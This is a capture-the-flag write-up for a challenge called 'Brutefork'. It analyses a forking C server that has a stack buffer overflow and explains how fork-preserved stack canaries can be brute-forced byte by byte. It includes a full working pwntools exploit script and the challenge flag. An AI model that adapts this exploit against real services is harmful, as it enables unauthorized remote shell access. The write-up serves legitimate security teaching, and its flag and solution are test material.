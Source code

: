 ## Brutefork

### Description

> I locked myself out of my server and it doesn't accept my password anymore :(
>
> Can you restore access please?

### Solution

We are supplied with a binary, its source code and a connection to a server where the binary is running. Having access to the source code will greatly speed up the reversing process, since we don't have to deal with assembly code.

First we are going to read the source code in order to understand the service and find an exploitable vulnerability. Then analyze and exploit the vulnerability to get remote code execution on the server.

To solve this challenge, the following tools were used:

- [Python](https://www.python.org/)

- [pwntools](https://github.com/Gallopsled/pwntools)

#### Analyzing the Source Code

When reading through the source code, the first thing that stands out is that the service implements its own fork server.

```c
// create socket
int sockfd = socket(AF_INET, SOCK_STREAM, 0);

// set address (any) and port (PORT)
struct sockaddr_in addr = {0};
addr.sin_family = AF_INET;
addr.sin_port = htons(PORT);
addr.sin_addr.s_addr = htonl(INADDR_ANY);

// prepare for accepting connections
bind(sockfd, (struct sockaddr *)&addr, sizeof addr);
listen(sockfd, 8);

while (1) {
    // wait for new connection
    int clientfd = accept(sockfd, NULL, NULL);

    // fork: parent waits for next connection, child handles connection
    if (fork() == 0) {
        // in child
        handle();
        return EXIT_SUCCESS;
    }
}
```

This is unusual to see in an exploitation challenge, so probably relevant for the solution.

Apart from that, a handy `shell` function is provided, which unconditionally spawns a shell for us.

```c
void shell(void) {
    execl("/bin/sh", "sh", (char *)NULL);
}
```

Unfortunately, there's no way we can reach this function using the intended control flow, because the password check always returns `false`.

```c
bool check_pass(const char *pass) {
    return false;
}

void handle(void) {
    char buf[100];

    printf("Input password: ");
    read(STDIN_FILENO, buf, 0x100);

    if (check_pass(buf)) {
        printf("Authenticated. Here's your shell:\n");
        shell();
    } else {
        printf("Authentication failed!\n");
    }
}
```

However, looking at the function above we can spot a bug: the password buffer `buf` holds `100` bytes, but we can write up to `0x100 == 256` bytes.

Now that we completely analyzed the source code, we can proceed to exploit the service.

#### Exploiting the Service

So far this looks like a classic stack buffer overflow: we overflow the stack buffer up to the saved return address and overwrite it with the address of the provided `shell` function. When the `handle` function returns, it would "return into" the `shell` function, and spawn a shell.

But as it turns out, the binary was compiled with stack canaries enabled:

```c
// built with:
//   gcc -no-pie -fstack-protector-all -O0 -m32 -ggdb3 -o brutefork brutefork.c
```

With this option, the compiler inserts a stack canary (also called stack cookie or stack protector) between the local variables and the return address, and verifies its integrity before using the stored return address. Currently, the canary is generated randomly on process startup and the same canary is used for all functions.

We conclude that the bug we found is not enough to actually exploit the service, we also have to somehow bypass the stack canary.

This is where the forkserver becomes relevant: when a process forks, the stack canary is preserved! This is actually related to the fact that a single canary is used for all functions: the child process may return from functions which were entered before the fork. For these functions, the canary stored on the stack will inevitably be the canary of the process before the fork. So, in order to be able to successfully verify the integrity of the canary, the child process has to use the same canary.

But how does that help us in bypassing the canary? It's still unknown and initially randomly generated. However, we can bruteforce the first byte of the canary if we connect to the service multiple times to try each possible byte. Afterwards, we repeat the same process on the next byte, until we know the whole canary.

Now that we know how to get the canary, the exploit turns into a classic stack buffer overflow as described above: overwrite the saved return address to return into the `shell` function.

Flag: `CSR{th1s_w0rk5_f0r_ASLR_7oo!!}`

#### Exploit Code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.binary = 'brutefork'


def exploit():
    bytes = [chr(n) for n in range(256)]

    p = log.progress("Leaking canary")
    canary = '\0'

    while len(canary) < 4:
        for b in bytes:
            guess = canary + b

            p.status("%s", ' '.join(enhex(c) for c in guess))
            if try_canary(guess):
                canary = guess
                break
        else:
            log.error("Failed to leak canary")

    p.success("%s", ' '.join(enhex(c) for c in canary))

    r = connection(canary + 'B'*12 + p32(context.binary.symbols.shell))
    sleep(1)
    r.sendline('cat flag')
    log.success("Flag: %s", r.recvline_contains('CSR').strip())


def try_canary(guess):
    with context.local(log_level='ERROR'):
        r = connection(guess)
        ret = r.recvall()
        r.close()
        return ret.strip().endswith('failed!')


def connection(canary):
    r = remote('localhost', 1337)
    r.sendafter('password: ', 'A' * 100 + canary)
    return r


if __name__ == "__main__":
    exploit()
```


### Flag
`CSR{th1s_w0rk5_f0r_ASLR_7oo!!}`


### Creator
Jan-Niklas Sohn




